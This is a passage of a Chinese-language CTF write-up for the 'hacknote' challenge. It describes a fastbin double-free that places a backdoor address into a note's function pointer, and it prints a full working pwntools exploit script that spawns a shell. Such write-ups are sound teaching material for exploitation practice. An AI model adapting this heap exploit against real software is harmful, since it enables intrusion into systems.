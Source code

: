 故考虑通过fastbin double free分配到同一个堆块后改写函数指针为后门函数地址后打印即可getshell

构造exp如下：

```
from pwn import *
p = process('./hacknote') 
backdoor = 0x8048945

def cmd(command:int):
    p.recvuntil(b"Your choice :")
    p.sendline(str(command).encode())

def new(size:int, content):
    cmd(1)
    p.recvuntil(b"Note size :")
    p.sendline(str(size).encode())
    p.recvuntil(b"Content :")
    p.send(content)

def free(index:int):
    cmd(2)
    p.recvuntil(b"Index :")
    p.sendline(str(index).encode())

def show(index:int):
    cmd(3)
    p.recvuntil(b"Index :")
    p.sendline(str(index).encode())

def exp():
    new(8, "arttnba3") 
    free(0)
    free(0)
    new(0x20, "arttnba3") 
    new(8, p32(backdoor)) 
    show(0)
    p.interactive()

if __name__ == "__main__":
    exp() 
```

运行即可getshell

![](img/6b048b30d467cf0b1baffb7499e063ca.png)
